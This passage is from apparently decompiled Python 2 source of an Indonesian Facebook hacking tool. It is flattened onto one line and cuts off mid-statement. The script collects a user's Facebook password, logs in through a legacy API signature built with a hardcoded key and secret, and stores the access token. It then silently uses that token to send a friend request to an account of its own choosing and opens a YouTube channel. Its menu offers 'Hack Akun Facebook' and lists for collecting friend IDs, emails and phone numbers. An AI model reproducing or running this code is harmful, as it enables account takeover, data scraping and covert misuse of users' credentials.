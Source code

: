 '\x1b[1;91m[!] Keluar'     os.sys.exit()   def jalan(z):     for e in z + '\n':         sys.stdout.write(e)         sys.stdout.flush()         time.sleep(0.01)   logo = '\x1b[1;92m\n\xe2\x95\x94\xe2\x95\xa6\xe2\x95\x97\xe2\x94\x8c\xe2\x94\x80\xe2\x94\x90\xe2\x94\xac\xe2\x94\x80\xe2\x94\x90\xe2\x94\xac\xe2\x94\x8c\xe2\x94\x80   \xe2\x95\x94\xe2\x95\x90\xe2\x95\x97\xe2\x95\x94\xe2\x95\x97 \n \xe2\x95\x91\xe2\x95\x91\xe2\x94\x9c\xe2\x94\x80\xe2\x94\xa4\xe2\x94\x9c\xe2\x94\xac\xe2\x94\x98\xe2\x94\x9c\xe2\x94\xb4\xe2\x94\x90\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x95\xa0\xe2\x95\xa3 \xe2\x95\xa0\xe2\x95\xa9\xe2\x95\x97\n\xe2\x95\x90\xe2\x95\xa9\xe2\x95\x9d\xe2\x94\xb4 \xe2\x94\xb4\xe2\x94\xb4\xe2\x94\x94\xe2\x94\x80\xe2\x94\xb4 \xe2\x94\xb4   \xe2\x95\x9a  \xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d \x1b[1;93mv1.6\n\x1b[1;93m* \x1b[1;97mAuthor  \x1b[1;91m: \x1b[1;96mMltrCyber\x1b[1;97m\n\x1b[1;93m* \x1b[1;97mSupport \x1b[1;91m: \x1b[1;96mPersekukhaya Team  SyStEm\x1b[1;97m[\x1b[1;96m\x1b[1;97m] \x1b[1;97m/ \x1b[1;96mGUNAKAN DENGAN BIJAK \x1b[1;97m/ \x1b[1;96mMltrCyber\n\x1b[1;93m* \x1b[1;97mGitHub  \x1b[1;91m: \x1b[1;92m\x1b[4mhttps://github.com/MltrCyber\x1b[0m\n[*] Decompiled by MltrCyber\n'  def tik():     titik = [      '.   ', '..  ', '... ']     for o in titik:         print '\r\x1b[1;91m[\xe2\x97\x8f] \x1b[1;92mSedang Masuk COK \x1b[1;97m' + o,         sys.stdout.flush()         time.sleep(1)   back = 0 threads = [] berhasil = [] cekpoint = [] gagal = [] idteman = [] idfromteman = [] idmem = [] id = [] em = [] emfromteman = [] hp = [] hpfromteman = [] reaksi = [] reaksigrup = [] komen = [] komengrup = [] listgrup = [] vulnot = '\x1b[31mNot Vuln' vuln = '\x1b[32mVuln'   def login():     os.system('clear')     try:         toket = open('login.txt', 'r')         menu()     except (KeyError, IOError):         os.system('clear')         print logo         print 40 * '\x1b[1;97m\xe2\x95\x90'         print '\x1b[1;91m[\xe2\x98\x86] \x1b[1;92mLOGIN AKUN FACEBOOK AKUN FB \x1b[1;91m[\xe2\x98\x86]'         id = raw_input('\x1b[1;91m[+] \x1b[1;36mUsername FB \x1b[1;91m:\x1b[1;92m ')         pwd = getpass.getpass('\x1b[1;91m[+] \x1b[1;36mPassword FB \x1b[1;91m:\x1b[1;92m ')         tik()         try:             br.open('https://m.facebook.com')         except mechanize.URLError:             print '\n\x1b[1;91m[!] Tidak ada koneksi'             keluar()          br._factory.is_html = True         br.select_form(nr=0)         br.form['email'] = id         br.form['pass'] = pwd         br.submit()         url = br.geturl()         if 'save-device' in url:             try:                 sig = 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=' + id + 'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=' + pwd + 'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'                 data = {'api_key': '882a8490361da98702bf97a021ddc14d', 'credentials_type': 'password', 'email': id, 'format': 'JSON', 'generate_machine_id': '1', 'generate_session_cookies': '1', 'locale': 'en_US', 'method': 'auth.login', 'password': pwd, 'return_ssl_resources': '0', 'v': '1.0'}                 x = hashlib.new('md5')                 x.update(sig)                 a = x.hexdigest()                 data.update({'sig': a})                 url = 'https://api.facebook.com/restserver.php'                 r = requests.get(url, params=data)                 z = json.loads(r.text)                 zedd = open('login.txt', 'w')                 zedd.write(z['access_token'])                 zedd.close()                 print '\n\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mLogin berhasil'                 requests.post('https://graph.facebook.com/me/friends?method=post&amp;uids=gwimusa3&amp;access_token=' + z['access_token'])                 os.system('xdg-open https://youtube.com/NjankSoekamti')                 time.sleep(2)                 menu()             except requests.exceptions.ConnectionError:                 print '\n\x1b[1;91m[!] Tidak ada koneksi'                 keluar()          if 'checkpoint' in url:             print '\n\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'             os.system('rm -rf login.txt')             time.sleep(1)             keluar()         else:             print '\n\x1b[1;91m[!] Login Gagal'             os.system('rm -rf login.txt')             time.sleep(1)             login()   def menu():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         os.system('clear')         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         try:             otw = requests.get('https://graph.facebook.com/me?access_token=' + toket)             a = json.loads(otw.text)             nama = a['name']             id = a['id']         except KeyError:             os.system('clear')             print '\x1b[1;91m[!] \x1b[1;93mSepertinya akun kena Checkpoint'             os.system('rm -rf login.txt')             time.sleep(1)             login()         except requests.exceptions.ConnectionError:             print '\x1b[1;91m[!] Tidak ada koneksi'             keluar()      os.system('clear')     print logo     print '\x1b[1;97m\xe2\x95\x94' + 40 * '\xe2\x95\x90'     print '\xe2\x95\x91\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m]\x1b[1;97m Nama \x1b[1;91m: \x1b[1;92m' + nama     print '\x1b[1;97m\xe2\x95\x9a' + 40 * '\xe2\x95\x90'     print '\x1b[1;37;40m1. Informasi Pengguna'     print '\x1b[1;37;40m2. Hack Akun Facebook'     print '\x1b[1;37;40m3. Bot               '     print '\x1b[1;37;40m4. Lainnya....       '     print '\x1b[1;37;40m5. LogOut            '     print '\x1b[1;31;40m0. Keluar            '     print     pilih()   def pilih():     zedd = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')     if zedd == '':         print '\x1b[1;91m[!] Jangan